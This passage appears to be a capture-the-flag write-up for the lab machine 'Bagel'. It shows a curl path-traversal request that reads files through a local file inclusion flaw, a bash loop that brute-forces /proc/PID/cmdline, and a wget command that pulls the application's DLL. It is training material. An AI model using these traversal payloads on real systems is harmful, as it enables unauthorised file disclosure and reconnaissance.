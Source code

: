 ```jsx
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)

curl -i -s -k -X $'GET' \
    -H $'Host: bagel.htb:8000' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://bagel.htb:8000/?page=../../../../.Dockerfile'
```

Since there is no filename or path which was disclosed, given the LFI the best bet we have on this is to run a PID bruteforce with a script and get the `cmdline` information, following script does the work:

```jsx
#!/bin/bash

for i in {0..999}; do
    pid=$i
    url="http://bagel.htb:8000/?page=../../../../../proc/$pid/cmdline"
    curl -s "$url" | tee -a log.txt
    echo ""
done
```

Running the script I see that there is a `bagel.dll` running with `dotnet` , since we have the absolute path of the file, we can download it via the LFI

![](/img/Bagel_299b40e8bc344ae7904cea7a0b1ed5cf/Untitled_4.png)

```jsx
❯ wget http://bagel.htb:8000/\?page\=../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
--2023-04-19 18:11:06--  http://bagel.htb:8000/?page=../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
Resolving bagel.htb (bagel.htb)... 10.10.11.201
Connecting to bagel.htb (bagel.htb)|10.10.11.201|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10752 (10K) [application/octet-stream]
Saving to: ‘index.html?page=..%2F..%2F..%2F..%2F..%2F..%2Fopt%2Fbagel%2Fbin%2FDebug%2Fnet6.0%2Fbagel.dll’

index.html?page=..%2F..%2F..% 100%[================================================>]  10.50K  --.-KB/s    in 0s      

2023-04-19 18:11:06 (48.7 MB/s) - ‘index.html?page=..%2F..%2F..%2F..%2F..%2F..%2Fopt%2Fbagel%2Fbin%2FDebug%2Fnet6.0%2Fbagel.dll’ saved [10752/10752]

❯ mv index.html\?page=..%2F..%2F..%2F..%2F..%2F..%2Fopt%2Fbagel%2Fbin%2FDebug%2Fnet6.0%2Fbagel.dll bagle.dll
```
